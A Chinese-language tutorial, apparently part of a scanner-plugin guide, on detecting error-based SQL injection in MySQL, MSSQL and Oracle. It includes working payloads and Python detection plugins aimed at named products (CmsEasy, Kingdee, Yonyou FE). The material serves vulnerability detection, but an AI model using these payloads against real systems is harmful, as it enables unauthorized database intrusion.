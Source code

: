 # 基于报错的 SQL 注入
---

这一类的也叫有回显注入，页面会返回错误信息，或者是把注入语句的结果直接返回在页面中。
 
### MySQL 数据库
	
**方法**：直接在结果中输出一个 md5 值

其 SQL 语句原型类似：

```
select md5(233);
```

#### 实例

[CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827):

**请求的目标 URL**：

`http://xxx.com/celive/live/header.php`

**POST 数据内容(Payload)**：

```
xajax=LiveMessage&xajaxargs[0][name]=1',(SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(select md5(233)))a from information_schema.tables group by a)b),'','','','1','127.0.0.1','2') #
```

**手动验证效果图**：

![图 3-1](/img/3-1.png)

**漏洞验证(伪代码)**：

md5(233) 的值为 e165421110ba03099a1c0393373c5b43

```
if 'e165421110ba03099a1c0393373c5b43' in 返回内容:
        security_hole(target, log=log)
```

**范例插件**：

[CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827)

> 感谢插件作者: [残废](http://www.bugscan.net/accounts/template/profile/#/233)

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import urllib


def assign(service, arg):
    if service == fingerprint.cmseasy:
        return True, arg


def audit(arg):
    target = arg + '/celive/live/header.php'
    post_data = {
        'xajax': 'LiveMessage',
        'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                              "floor(rand(0)*2),(select md5(233)))a from "
                              "information_schema.tables group by a)b),"
                              "'','','','1','127.0.0.1','2') #"
    }
    code, head, body, redirect_url, log = hackhttp.http(
        target, post=urllib.urlencode(post_data))
    if 'e165421110ba03099a1c0393373c5b43' in body:
        security_hole(target, log=log)

if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.cmseasy, 'http://localhost/cmseasy/')[1])
```

### MSSQL 数据库

**方法**：直接在结果中输出一个 md5 值

其 SQL 语句原型类似：

```
select sys.fn_varbintohexstr(hashbytes('MD5','1234'));
```

`hashbytes()`返回 varbinary 类型值

`sys.fn_VarBinToHexStr()` 是把 varbinary 转换成 varchar

**范例插件**：


[金蝶办公系统 get_file.jsp SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-0173650)

> 感谢插件作者: [Clown](http://www.bugscan.net/accounts/template/profile/#/5517)

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# author:
# Name:金蝶办公系统 get_file.jsp SQL注入漏洞

import time

def assign(service, arg):
    if service == fingerprint.kingdee:
        return True, arg
        
        
def audit(arg):
    payload = 'Kingdee/disk/get_file.jsp?file_id=11%29%20and%201%3D2%20UNION%20SELECT%201%2C2%2C3%2C4%2C5%2C6%2C7%2Csys.fn_varbintohexstr%28hashbytes%28%27MD5%27%2C%271234%27%29%29%2C9%2C10--'
    code,head, res, redirect_url, log = hackhttp.http(arg + payload)
    if code == 200 and '81dc9bdb52d04dc20036dbd8313ed055' in res:
        security_hole(arg + payload + "  :found sql Injection", log=log)


if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.kingdee,'http://www.example.com/')[1])
```

其中 Payload 是经过 URL 编码后的，解码后的 Payload 为：

```
payload = 'Kingdee/disk/get_file.jsp?file_id=11) and 1=2 UNION SELECT 1,2,3,4,5,6,7,sys.fn_varbintohexstr(hashbytes('MD5','1234')),9,10--'
```

### Oracle 数据库

**方法**：Oracle 中输出 md5 值实现起来较为复杂，可以连续输出几个随机的字符来使判断字符串随机化

SQL 语句：

```
SELECT CHR(97)||CHR(108)||CHR(107)||CHR(100)||CHR(102)||CHR(106)||CHR(103)||CHR(99) FROM foobar
```

其效果相当于：

```
SELECT 'alkdfjgc' FROM foobar
```

这样只用检测 `alkdfjgc` 是否在返回页面中即可。

**注意**:所选字符串应该尽量无规律且要有一定长度，不要选用常见的单词（如 get, test, ceshi）。

#### 范例

[用友FE协作办公系统 feReport/chartList.jsp SQL 注入漏洞](http://www.wooyun.org/bugs/wooyun-2010-0112747)：

原漏洞提及多处 SQL 注入，这里只选择其中 Oracle Union 注入：

Payload 为：

```
feReport/chartList.jsp?delId=1&reportId=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,bvuegrsycgaonod,NULL,NULL,NULL FROM DUAL--
```

将 `bvuegrsycgaonod` 转换后 Payload 为：

```
feReport/chartList.jsp?delId=1&reportId=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHR(98)||CHR(118)||CHR(117)||CHR(101)||CHR(103)||CHR(114)||CHR(115)||CHR(121)||CHR(99)||CHR(103)||CHR(97)||CHR(111)||CHR(110)||CHR(111)||CHR(100),NULL,NULL,NULL FROM DUAL--
```

**示例插件**：

[用友FE协作办公系统 feReport/chartList.jsp SQL 注入漏洞检测插件](http://www.bugscan.net/source/plugin/2073/template/)

> 感谢插件作者: [小光](http://www.bugscan.net/accounts/template/profile/#/4457)

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# 用友FE协作办公系统 feReport/chartList.jsp SQL 注入漏洞

import time

def assign(service, arg):
    if service == fingerprint.yongyou_fe:
        return True, arg
        
        
def audit(arg):
    payload = 'feReport/chartList.jsp%3FdelId%3D1%26reportId%3D1%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCHR%2898%29%7C%7CCHR%28118%29%7C%7CCHR%28117%29%7C%7CCHR%28101%29%7C%7CCHR%28103%29%7C%7CCHR%28114%29%7C%7CCHR%28115%29%7C%7CCHR%28121%29%7C%7CCHR%2899%29%7C%7CCHR%28103%29%7C%7CCHR%2897%29%7C%7CCHR%28111%29%7C%7CCHR%28110%29%7C%7CCHR%28111%29%7C%7CCHR%28100%29%2CNULL%2CNULL%2CNULL%20FROM%20DUAL--'
    code,head, res, redirect_url, log = hackhttp.http(arg + payload)
    if code == 200 and 'bvuegrsycgaonod' in res:
        security_hole(arg + payload + " : Found SQL Injection", log=log)


if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.yongyou_fe,'http://www.example.com/')[1])
```